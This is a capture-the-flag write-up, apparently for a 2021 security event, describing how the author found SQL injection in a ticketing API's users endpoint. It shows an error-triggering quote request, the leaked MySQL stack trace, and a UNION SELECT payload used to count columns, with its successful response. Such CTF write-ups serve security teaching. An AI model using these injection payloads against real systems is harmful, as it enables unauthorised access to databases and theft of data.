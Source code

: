 # Flag 5: Database

Flag 5 is called `Database`, which I take to mean it is stored in the database, and there'll be some way of retrieving it. Initially I move on to [Flag 6](#flag-6-ticket), and return back here once I've explored the application a bit.

After returning I had discovered that most API endpoints were vulnreable to [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection).

```
GET /v1/users/" HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 500,
    "message": "Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"\"\"' at line 1\n    at PromisePool.query (/tickets/node_modules/mysql2/promise.js:330:22)\n    at getUser (/tickets/app/controllers/users.js:66:8)\n    at Layer.handle [as handle_request] (/tickets/node_modules/express/lib/router/layer.js:95:5)\n    at next (/tickets/node_modules/express/lib/router/route.js:137:13)\n    at Route.dispatch (/tickets/node_modules/express/lib/router/route.js:112:3)\n    at Layer.handle [as handle_request] (/tickets/node_modules/express/lib/router/layer.js:95:5)\n    at /tickets/node_modules/express/lib/router/index.js:281:22\n    at param (/tickets/node_modules/express/lib/router/index.js:354:14)\n    at param (/tickets/node_modules/express/lib/router/index.js:365:14)\n    at Function.process_params (/tickets/node_modules/express/lib/router/index.js:410:3)"
}
```

Using this, I figured out how many columns I had to work with by using `union select 1;`, `union select 1,2;` etc until the application returned correctly.

```
GET /v1/users/0"%20union%20select%201,2,3,4,5,6;%20--%20 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "id": 1,
            "username": "2",
            "isAdmin": 3,
            "details": "4",
            "birthdate": "5",
            "jobTitle": "6"
        }
    ]
}
```
